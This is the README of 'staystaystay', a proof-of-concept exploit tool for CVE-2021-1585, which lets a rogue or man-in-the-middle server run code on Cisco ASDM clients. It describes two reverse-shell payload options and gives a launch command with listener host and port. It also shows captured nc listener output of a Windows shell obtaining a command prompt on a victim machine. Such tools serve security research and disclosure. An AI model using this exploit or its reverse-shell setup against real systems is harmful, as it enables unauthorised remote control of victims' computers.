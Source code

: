 # staystaystay

`staystaystay` is a proof of concept exploit for [CVE-2021-1585](https://nvd.nist.gov/vuln/detail/CVE-2021-1585), a man in the middle or evil endpoint RCE issue affecting Cisco ASA Device Manager (ASDM). The issue was originally discovered by [Malcolm Lashley](https://gist.github.com/mlashley/7d2c16e91fe37c9ab3b2352615540025) and disclosed in the summer of 2021. However, since the issue remains unpatched in the latest version (ASDM 7.17(1)), I stumbled upon this independently.

Attackers can configure two types of payloads to obtain a reverse shell to the victim:

* jjs.exe based (a file touches disk)
* [Longtime Sunshine](https://github.com/jbaines-r7/longtime-sunshine) based

If a victim connects their ASDM to `staystaystay` then it will inject the configured payload resulting in a reverse shell. The `jjs` reverse shell can be caught with a typical `nc` listener (or even Metasploit, if you'd like). The Longtime Sunshine option requires the attacker use that framework.

As an example, the following command will start `staystaystay` on port 8443 with the `jjs` payload:

```
./staystaystay -j --lhost 10.0.0.2 --lport 1270 --https_port 8443
```

Once the victim connects to 8443, a reverse shell will be generated to 10.0.0.2:1270:

```
albinolobster@ubuntu:~$ nc -lvnp 1270
Listening on 0.0.0.0 1270
Connection received on 10.0.0.26 50283
Microsoft Windows [Version 10.0.19042.1645]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Cisco Systems\ASDM>whoami
whoami
desktop-1hug9pt\albinolobster

C:\Program Files (x86)\Cisco Systems\ASDM>
```

The following video contains an example of exploition with Longtime Sunshine:

* https://www.youtube.com/watch?v=07VO2JGTWR8

An AttackerKB write up can be found here:

* https://attackerkb.com/topics/0vIso8fLhQ/cve-2021-1585/rapid7-analysis

## Credit

* Taylor Swift - [Acoustic version](https://www.youtube.com/watch?v=JbiTT82XAo0&t=2423s)
